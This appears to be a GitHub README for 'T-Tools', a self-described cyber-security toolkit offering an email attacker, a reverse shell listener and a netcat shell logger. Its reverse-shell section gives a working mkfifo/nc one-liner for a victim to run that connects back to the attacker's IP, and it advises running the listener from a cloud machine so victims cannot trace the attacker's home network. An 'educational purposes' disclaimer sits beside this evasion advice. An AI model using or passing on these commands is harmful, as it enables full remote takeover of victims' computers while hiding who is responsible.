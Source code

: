 # T-Tools-advanced--cyber-security


# What is T-Tools

T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in net.py and run it to start listening

Makesure you add your ip to the victim's command.

* Guidlines 

* Always use a cloud linux machine or another os in the cloud, because when the victim type the command he can grab your home network ip.

* And this tool is only for educational purposes.

* This tool can take the full control of the computer.

* Another thing is that you can start listening on any port.
 
* Also you have to add your ip to the net.py as well as the victim's command.

* And you can use linode, aws or google cloud services to make your cloud machine.

      kali@attacker ~ $ python3 net.py 
      kali@victim ~ $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <add your ip> 9999 >/tmp/f  
           
Made with 💖 by THB
